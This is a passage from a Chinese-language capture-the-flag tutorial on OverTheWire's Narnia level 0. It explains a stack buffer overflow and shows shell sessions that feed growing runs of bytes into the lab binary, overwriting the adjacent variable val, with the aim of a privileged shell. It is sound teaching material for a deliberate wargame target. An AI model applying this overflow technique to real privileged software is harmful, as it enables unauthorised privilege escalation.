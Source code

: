 但是,如果我们能改变*val*对于[0xdeadbeef]的价值,该程序将给我们一个特权shell!


[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak

让我们想想内存堆栈.就像在一堆书中, 局部变量按照创建的顺序入栈.在上面的例子中, *val* 在*buf*之前入栈,所以*val*在更高的内存地址中:
```c
  long val=0x41414141;
  char buf[20];
```

如果输入大于20个字节会发生什么? 在这种情况下,没有边界检查并且输入变量溢出*buf*,占领以下堆栈空间: *val*.这是一个典型的**堆栈溢出**!



### Step 2: 可视化溢出


计划是溢出*buf*20+4字节,所以这最后四个字节用```0xdeadbeef```覆盖*val*.

让我们看看当我们按字节溢出时,*val*如何被充满:


```sh
narnia0@melinda:/narnia$ python -c 'print "B"*24'
BBBBBBBBBBBBBBBBBBBBBBBB

narnia0@melinda:/narnia$ (python -c 'print "B"*19') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBB
val: 0x41414141
WAY OFF!!!!


narnia0@melinda:/narnia$ (python -c 'print "B"*20') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*21') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBB
val: 0x41410042
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*22') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBB
val: 0x41004242
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*23') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBB
val: 0x00424242
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*24') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP